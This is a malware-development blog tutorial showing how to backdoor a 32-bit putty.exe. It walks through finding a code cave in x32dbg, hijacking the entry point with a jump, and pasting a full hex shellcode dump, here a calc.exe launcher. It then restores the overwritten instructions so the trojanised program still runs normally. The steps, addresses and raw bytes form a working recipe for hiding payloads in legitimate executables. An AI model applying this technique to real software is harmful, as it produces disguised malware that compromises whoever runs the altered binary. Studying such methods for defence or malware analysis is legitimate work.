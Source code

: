```yaml
---
title: MalDev | Putty
author: Zeropio
date: 2023-01-29
categories: [Malware, Development]
tags: [malware, windows]
permalink: /malware/development/putty-1
---
```


# Enumeration

First, debug a 32bit **putty.exe** in x32dbg. There is a inital breakpoint in the binary:
```
Address=00454AD0
Module/Label/Exception=<putty.exe.EntryPoint>
State=One-time
Disassembly=push 60
Hits=0
Summary=entry breakpoint
```

We need to find a **code cave** in the binary. The `.text` section it is executable:
```
Address=00401000
Size=0005C000
Party=User
Page Information=".text"
Content of section=Executable code
Allocation Type=IMG
Current Protection=ER---
Allocation Protection=ERWC-
```

Also, it can be seen at the end of the file a bunch of empty memory. This can be a code cave:

![](assets/img/maldev/putty/2023-01-29_19-09.png)

We will add a breakpoint there and copy the address (**0045C961**) for later. We will do a jump from the first instruction (**00454AD0**) to our code cave, and then come back to the main program. Copy the firsts instructions of the program:
```
00454AD0 | 6A 60               | push 60                          |
00454AD2 | 68 B07A4700         | push putty.477AB0                |
00454AD7 | E8 08210000         | call putty.456BE4                |
00454ADC | BF 94000000         | mov edi,94                       | edi:"LdrpInitializeProcess"
00454AE1 | 8BC7                | mov eax,edi                      | edi:"LdrpInitializeProcess"
```

---

# Code Cave

The first instruction (**00454A**) can be overwrite as simply as selecting and pressing <kdb>Space</kdb> (or right click and `Assemble`). We will change the value to:
```assembly
jmp 0x0045C961
```

Which is the direction of the code cave. Pressing <kdb>Enter</kdb> in **0045C961** will now jump to the code cave.

![](assets/img/maldev/putty/2023-01-29-19-20.gif)

Now we will overwrite the two first entries of the shellcode to write on the stack with the functions `pushad` and `pushfd`. Select a bunch of lines from the code cave, copy our shellcode, press <kdb>Ctrl</kdb> + <kdb>E</kdb> and paste it. As we can see, our previos empty code cave is now filled with our shellcode. In this case, a 32bit calc.exe:
```
fc e8 82 00 00 00 60 89 e5 31 c0 64
8b 50 30 8b 52 0c 8b 52 14 8b 72 28
0f b7 4a 26 31 ff ac 3c 61 7c 02 2c
20 c1 cf 0d 01 c7 e2 f2 52 57 8b 52
10 8b 4a 3c 8b 4c 11 78 e3 48 01 d1
51 8b 59 20 01 d3 8b 49 18 e3 3a 49
8b 34 8b 01 d6 31 ff ac c1 cf 0d 01
c7 38 e0 75 f6 03 7d f8 3b 7d 24 75
e4 58 8b 58 24 01 d3 66 8b 0c 4b 8b
58 1c 01 d3 8b 04 8b 01 d0 89 44 24
24 5b 5b 61 59 5a 51 ff e0 5f 5f 5a
8b 12 eb 8d 5d 6a 01 8d 85 b2 00 00
00 50 68 31 8b 6f 87 ff d5 bb f0 b5
a2 56 68 a6 95 bd 9d ff d5 3c 06 7c
0a 80 fb e0 75 05 bb 47 13 72 6f 6a
00 53 ff d5 63 61 6c 63 2e 65 78 65
00
```

![](assets/img/maldev/putty/2023-01-29_19-29.png)

We can save the state of the binary with <kdb>Ctrl</kdb> + <kdb>P</kdb> and save it as a another PE. If we run the binary now, the shellcode will be executed.

Now we need to find where the calc is being launched. Adding breakpoints to each `call` in the shellcode and executing it show that the **FFD5** in the direction **0045CA06** launch the *calc.exe*. Also, we can found that the last call is the call to exit.

---

# Retrieving the PE 

Now that we know where our shellcode execute and which is the function that exists (the last `call`), we need to make a jump back to the program. We need to overwrite the `push 0` of our shellcode to jump to another space in the code cave.

Now we need to restore the original flow of the program. The first two lines after the jump will be overwritten by:
```
popfd
popad
```

Take the instructions we overwritten before as hex value:
```
6A 60 68 B0 7A 47 00
```

And replaced the empty code caves after the `popad`. And lastly, jump back to the instruction **00454AD7**. We can see the final output:

![](assets/img/maldev/putty/2023-01-29_19-51.png)

---

# Final

We can see the final work:

![](assets/img/maldev/putty/2023-01-29-20-00.gif)


